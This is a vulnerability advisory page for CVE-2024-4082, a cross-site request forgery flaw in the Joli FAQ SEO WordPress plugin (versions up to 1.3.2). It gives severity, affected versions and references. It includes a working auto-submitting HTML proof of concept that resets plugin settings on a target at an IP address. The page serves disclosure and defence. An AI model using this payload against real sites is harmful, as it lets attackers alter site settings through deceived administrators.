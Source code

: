 ```yaml
---
layout: page
title: CVE-2024-4082
subtitle: Joli FAQ SEO – WordPress FAQ Plugin <= 1.3.2 - Cross-Site Request Forgery
---
```

## Description
The Joli FAQ SEO – WordPress FAQ Plugin plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.2. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.2

## PoC :
```
<html>
  <!-- eneriiiiiiii<3 -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php?page=joli_faq_seo_settings" method="POST">
      <input type="hidden" name="jfaq&#95;reset&#95;settings" value="Reset&#32;settings" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3081648%40joli-faq-seo%2Ftrunk&old=3076380%40joli-faq-seo%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4082
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/joli-faq-seo/joli-faq-seo-wordpress-faq-plugin-132-cross-site-request-forgery






